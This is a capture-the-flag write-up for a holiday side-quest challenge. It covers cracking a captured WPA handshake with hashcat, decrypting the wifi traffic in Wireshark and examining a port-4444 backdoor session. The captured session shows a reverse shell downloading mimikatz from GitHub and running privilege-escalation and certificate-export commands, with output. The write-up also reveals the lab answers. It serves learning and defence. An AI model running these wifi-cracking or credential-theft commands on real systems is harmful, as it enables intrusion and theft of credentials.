 > AoC Side Quest Ctf
- So serious I almost lost my marbles on four separate occasions trying to finish this
#### Question 1
- Finding the name of the wifi network was easy
- Upzip the .pcapng file, load it into wireshark, and you see pretty quickly that the SSID is `FreeWifiBFC`
#### Question 2
- To find the password, first use this site: https://hashcat.net/cap2hashcat/ to extract the handshake file w the pass hash, then use this command:
```shell
hashcat -m 22000 <path/to/hash/file> /usr/share/wordlists/rockyou.txt.gz
```
- Two lines like this should appear in the results:
```
af804935ab322d4b0bbd84a711c36f01:22c712c7e235:d267d13f36ec:FreeWifiBFC:Christmas
c10a70d965945b57f2988ae0fcfd2b22:22c712c7e235:2a8449acf9d8:FreeWifiBFC:Christmas
```
#### Question 3
- Now that we have the wifi password, we can decrypt the traffic
- In wireshark, go to `Edit > Preferences > Protocols > IEEE 802.11`
- Usually, you can just load the decryption key like this `wpa-pwd|Christmas`
- I also had to enable `Assume packets have FCS` for the decryption to work
- After that, there are other visible protocols and steams, such as `TCP`
- There was a hint about backdoors in the room, and the `TCP` backdoor port is 4444
- Search `tcp.port == 4444`, find a `PSH ACK` packet, and follow the TCP steam
- You should get something like this:
```
Windows PowerShell running as user Administrator on INTERN-PC
Copyright (C) Microsoft Corporation. All rights reserved.



PS C:\Users\Administrator> PS C:\Users\Administrator> 
PS C:\Users\Administrator> dir


    Directory: C:\Users\Administrator


Mode                LastWriteTime         Length Name                                             
----                -------------         ------ ----                                             
d-----       11/23/2023   9:47 PM                .ssh                                             
d-r---        3/17/2021   3:13 PM                3D Objects                                       
d-r---        3/17/2021   3:13 PM                Contacts                                         
d-r---       11/25/2023   2:12 PM                Desktop                                          
d-r---        3/17/2021   3:13 PM                Documents                                        
d-r---       11/24/2023  10:53 PM                Downloads                                        
d-r---        3/17/2021   3:13 PM                Favorites                                        
d-r---        3/17/2021   3:13 PM                Links                                            
d-r---        3/17/2021   3:13 PM                Music                                            
d-r---       11/24/2023  10:44 PM                Pictures                                         
d-r---        3/17/2021   3:13 PM                Saved Games                                      
d-r---        3/17/2021   3:13 PM                Searches                                         
d-r---        3/17/2021   3:13 PM                Videos                                           
-a----       11/25/2023   6:01 AM           8192 psh4444.exe                                      


PS C:\Users\Administrator> whoami
intern-pc\administrator
PS C:\Users\Administrator> wget https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip -O mimi.zip
PS C:\Users\Administrator> Expand-Archive .\mimi.zip
PS C:\Users\Administrator> mv mimi/x64/mimikatz.exe .
PS C:\Users\Administrator> cmd /c mimikatz.exe privilege::debug token::elevate crypto::capi "crypto::certificates /systemstore:LOCAL_MACHINE /store:\`"Remote Desktop\`" /export" exit

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # token::elevate
Token Id  : 0
User name : 
SID name  : NT AUTHORITY\SYSTEM

496	{0;000003e7} 1 D 16529     	NT AUTHORITY\SYSTEM	S-1-5-18	(04g,21p)	Primary
 -> Impersonated !
 * Process Token : {0;0002bbfa} 2 D 25564822  	INTERN-PC\Administrator	S-1-5-21-1966530601-3185510712-10604624-500	(14g,24p)	Primary
 * Thread Token  : {0;000003e7} 1 D 25609341  	NT AUTHORITY\SYSTEM	S-1-5-18	(04g,21p)	Impersonation (Delegation)

mimikatz(commandline) # crypto::capi
Local CryptoAPI RSA CSP patched
Local CryptoAPI DSS CSP patched

mimikatz(commandline) # crypto::certificates /systemstore:LOCAL_MACHINE /store:"Remote Desktop" /export
 * System Store  : 'LOCAL_MACHINE' (0x00020000)
 * Store         : 'Remote Desktop'
```
- (there's more but you get the point)
- From this we can determine that the tool they are running is `mimikatz`
#### Question 4
